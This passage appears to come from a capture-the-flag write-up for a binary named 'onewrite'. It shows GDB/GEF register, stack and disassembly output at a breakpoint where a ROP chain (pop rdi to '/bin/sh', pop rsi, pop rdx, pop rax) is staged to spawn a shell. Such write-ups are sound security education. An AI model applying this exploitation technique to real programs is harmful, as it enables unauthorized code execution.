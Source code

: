 We can see that it has been shifted up by `0xd0`:
```
Breakpoint 2, 0x00007f3bdb37d6fa in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x8               
$rbx   : 0x1               
$rcx   : 0x0               
$rdx   : 0x8               
$rsp   : 0x00007ffd5f926038  →  0xdb5d522c6f2f9d53
$rbp   : 0x00007f3bdb61afb0  →  0x00007f3bdb3759c3  →   sub rsp, 0x18
$rsi   : 0x00007ffd5f925f60  →  0x00007f3bdb37d6f3  →   add rsp, 0xd0
$rdi   : 0x0               
$rip   : 0x00007f3bdb37d6fa  →   pop rbx
$r8    : 0x00007f3bdd24e880  →  0x00007f3bdd24e880  →  [loop detected]
$r9    : 0x0               
$r10   : 0x00007f3bdb3fb840  →   add BYTE PTR [rax], al
$r11   : 0x0000000000000246
$r12   : 0x00007f3bdb61e140  →  0x00007f3bdb6208c0  →  0x0000000000000000
$r13   : 0x1               
$r14   : 0x00007f3bdb6208c0  →  0x0000000000000000
$r15   : 0x1               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007ffd5f926038│+0x0000: 0xdb5d522c6f2f9d53   ← $rsp
0x00007ffd5f926040│+0x0008: 0x00007f3bdb3754fa  →   pop rdi
0x00007ffd5f926048│+0x0010: 0x00007f3bdb6203b0  →  0x0068732f6e69622f ("/bin/sh"?)
0x00007ffd5f926050│+0x0018: 0x00007f3bdb37a9f2  →   pop rsi
0x00007ffd5f926058│+0x0020: 0x0000000000000000
0x00007ffd5f926060│+0x0028: 0x00007f3bdb3b54c5  →   pop rdx
0x00007ffd5f926068│+0x0030: 0x0000000000000000
0x00007ffd5f926070│+0x0038: 0x00007f3bdb3b30ac  →   pop rax
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f3bdb37d6ec                  add    BYTE PTR [rax], al
   0x7f3bdb37d6ee                  add    BYTE PTR [rcx+0x480975d0], cl
   0x7f3bdb37d6f4                  add    esp, 0xd0
 → 0x7f3bdb37d6fa                  pop    rbx
   0x7f3bdb37d6fb                  ret    
   0x7f3bdb37d6fc                  call   0x7f3bdb3b55d0
   0x7f3bdb37d701                  nop    DWORD PTR [rax+rax*1+0x0]
   0x7f3bdb37d706                  nop    WORD PTR cs:[rax+rax*1+0x0]
   0x7f3bdb37d710                  push   rbp
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "onewrite", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f3bdb37d6fa → pop rbx
────────────────────────────────────────────────────────────────────────────────
gef➤  p $rsp
$2 = (void *) 0x7ffd5f926038
```
